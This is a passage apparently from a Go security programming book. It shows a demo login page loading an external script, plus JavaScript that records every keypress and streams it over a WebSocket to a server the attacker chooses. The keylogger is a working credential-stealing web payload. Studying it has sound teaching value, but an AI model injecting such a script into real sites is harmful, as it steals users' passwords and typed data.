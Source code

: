 For demonstration purposes, you’ll use [JS Bin (http://jsbin.com)](http://jsbin.com) to test your payload. JS Bin is 
an online playground where developers can test their HTML and JavaScript code. Navigate to JS Bin in your web browser 
and paste the following HTML into the column on the left, completely replacing the default code:
```html
<!DOCTYPE html>
<html>
<head>
  <title>Login</title>
</head>
<body>
 <script src='http://localhost:8080/k.js'></script>
  <form action='/login' method='post'>
    <input name='username'/>
    <input name='password'/>
    <input type="submit"/>   
  </form>
</body>
</html>
```

On the right side of the screen, you’ll see the rendered form. As you may have noticed, you’ve included a script tag 
with the src attribute set to http://localhost:8080/k.js. This is going to be the JavaScript code that will create 
the WebSocket connection and send user input to the server.

Your server is going to need to do two things: handle the WebSocket and serve the JavaScript file. First, let’s get 
the JavaScript out of the way, since after all, this book is about Go, not JavaScript. (Check out https://github.com/gopherjs/gopherjs/ 
for instructions on writing JavaScript with Go.) The JavaScript code is shown here:
```javascript
(function() {
    var conn = new WebSocket("ws://{{.}}/ws");
    document.onkeypress = keypress;
    function keypress(evt) {
        s = String.fromCharCode(evt.which);
        conn.send(s);
    }
})();
```

The JavaScript code handles keypress events. Each time a key is pressed, the code sends the keystrokes over a WebSocket 
to a resource at ws://{{.}}/ws. Recall that the {{.}} value is a Go template placeholder representing the current 
context. This resource represents a WebSocket URL that will populate the server location information based on a string 
you’ll pass to the template. We’ll get to that in a minute. For this example, you’ll save the JavaScript in a file 
named logger.js.
